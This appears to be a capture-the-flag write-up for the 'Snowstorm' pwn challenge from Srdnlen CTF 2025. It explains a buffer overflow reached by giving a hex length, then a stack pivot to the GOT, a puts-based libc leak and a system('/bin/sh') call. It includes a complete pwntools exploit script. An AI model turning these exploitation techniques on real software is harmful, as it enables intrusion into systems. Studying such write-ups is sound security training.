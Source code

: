 # Snowstorm

## challenge information

Surdnlen CTF 2025: [challenge](https://ctf.srdnlen.it/challenges#challenge-14)
`pwn userland`

## analysis
* vulnerability
  * there is a buffer overflow vulnerability in `ask_length()`.
  ![Screenshot_20250122_221434.png](Screenshot_20250122_221434.png)
  * if the string was formatted in Hex, `strtol` return the decimal value.
  * in this case, we can bypass the size restriction by input hex value, 0x40.
* exploit plan
  * pivot stack to .got section.
  * overwrite close() -> puts()
  * return to pwnme() and earn puts(puts)
  * assemble system("/bin/sh")
## exploit
* checksec
```bash
pwndbg> checksec
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
* stack offset
  * the distance between out input and saved rbp is 0x30
```py
   0x00000000004015bd <+83>:    call   0x40136a <ask_length>
   0x00000000004015c2 <+88>:    movsxd rdx,eax
   0x00000000004015c5 <+91>:    lea    rax,[rbp-0x30]
   0x00000000004015c9 <+95>:    mov    rsi,rax
   0x00000000004015cc <+98>:    mov    edi,0x0
   0x00000000004015d1 <+103>:   call   0x401160
```
* mapping address in .got region
![Screenshot_20250122_223117.png](Screenshot_20250122_223117.png)

## solver
```Py
from pwn import *

e = ELF("snowstorm")
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")
ld = ELF("/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2")

context.binary = e

p = e.process()

gdb.attach(p,"""
b *pwnme+88
b *pwnme+103
b *pwnme+118
""")
# 0x00000000004015ff: or eax, 0x90fffffb; leave; ret; 
or_eax = 0x00000000004015ff
ret = 0x000000000040101a

print(p.recv())
p.send(b"0x40")
payload = b"A"*0x30
payload+= p64((e.got["strlen"])+0x30)
payload+= p64((e.sym["pwnme"])+83)
print(p.recv())
p.send(payload)

#print(p.recvuntil(b"(max 40): "))
print(p.recv())
p.send(b"0x40")
payload = p64(e.got["strlen"]) #strlen
payload+= p64(e.got["strlen"]) #printf
payload+= p64(e.plt["puts"]) #close
#payload+= p64(or_eax)
payload+= p64(0x401080) #strcspn
payload+= p64(0x401090) #read
#payload+= p64((e.got["puts"])<<32)
payload+= p32(0x404028)
payload+= p32(0x404000)
payload+= p64((e.got["strlen"])+0x30)
payload+= p64(e.sym["pwnme"]+88)
print(p.recv())
p.send(payload)

leak = u64(p.recvline().strip().ljust(8,b"\x00"))
print(f"leak: {hex(leak)}")
libc.address = leak - libc.sym["puts"]
print(f"libc@ {hex(libc.address)}")

payload = p64(0x401050) #strlen
payload+= p64(0x401050) #printf
payload+= p64(libc.sym["system"]) #close
payload+= b"/bin/sh\0" #strcspn
payload+= b"\x90"
print(p.recv())
p.send(payload)

print(p.recv())
p.send(payload)

p.interactive()
```
